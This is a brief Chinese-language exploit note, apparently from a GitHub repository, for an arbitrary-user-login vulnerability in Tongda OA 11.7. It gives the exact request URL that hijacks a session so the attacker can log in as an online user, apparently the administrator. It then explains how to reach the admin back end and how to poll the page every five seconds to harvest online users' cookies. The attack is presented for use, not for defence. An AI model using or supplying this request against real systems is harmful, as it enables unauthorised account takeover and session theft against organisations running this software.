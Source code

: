 # 通达OA11.7 任意用户登陆

条件需要管理员在线

```
http://192.168.1.22/mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0
```

访问路径，覆盖了session直接用cookie登陆，访问目录/general/进入后台

访问目标后台 http://xxx.xxx.xxx.xxx/general/ 当目标离线时则访问漏洞页面则会出现：RELOGIN

5秒一次测试用户是否在线

通过此思路可以持续发包监控此页面来获取在线用户的Cookie

404实验室的分析：https://paper.seebug.org/1492/

ref：

* https://www.o2oxy.cn/3158.html
* https://mp.weixin.qq.com/s/5M40Oux_89dgy5QAUhULGg